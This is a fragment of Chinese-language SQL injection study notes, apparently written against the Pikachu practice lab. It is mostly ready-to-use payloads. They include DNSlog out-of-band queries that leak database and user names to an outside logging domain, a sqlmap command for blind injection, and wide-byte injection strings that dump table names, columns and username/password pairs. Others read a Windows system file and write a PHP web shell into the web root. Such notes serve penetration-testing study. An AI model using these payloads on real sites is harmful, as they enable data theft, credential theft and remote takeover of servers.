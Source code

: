 nmdi8m.dnslog.cn

是一个指向127.0.0.1的地址，但是对它做DNS请求时，它就会记录下来。

在数据库里做实验：

`select load_file(concat('\\\\',(select username from table1 where id=1),'.nmdi8m.dnslog.cn\\xf1'))`

把id为1的用户名取出并增加到nmdi8m.dnslog.cn的前面。`xf1`处的值每次请求时随便变一下。

`1' and if((select load_file(concat('\\\\',(select database()),'.nmdi8m.dnslog.cn\\xf1'))),1,0) --+`

`1' and if((select load_file(concat('\\\\',(select database()),'.nmdi8m.dnslog.cn\\xf1'))),1,0) --+`

并且域名解析只能在windows上用。



## 盲注（base on time）

方法一：使用dnslog

``1' and if((select load_file(concat('\\\\',(select database()),'.nmdi8m.dnslog.cn\\xf1'))),1,0) --+``

方法二：使用sqlmap

`sqlmap -u "[目标]" --skip 'submit' --technique T --dbs --batch --threads 10 --level 4`





## 宽字节注入

输入值测试抓包发送。

发现没有报错，提示是宽字节注入——`%df`——屏蔽了单引号

`a%df' order by 2 #`

然后使用联合注入即可，但是注意提交的命令里需要单引号的地方要进行hex编码

`id=a%df' union select 1,2#` 

`id=a%df' union select 1,database()#`

`id=a%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#`

`id=a%df' union select 1,group_concat(column_name) from information_schema.columns where table_schema="pikachu" and table_name="users"#`

`id=a%df' union select 1,group_concat(username,0x7e,password) from users#`

`id=a%df' union select load_file('C:/Windows/win.ini'),1 from users#`读文件

`id=a%df' union select 1,'<?php assert($_POST[1]);?>' into outfile 'C:/phpstudy_pro/WWW/pikachu/vul/sqli/1.php'#`写马
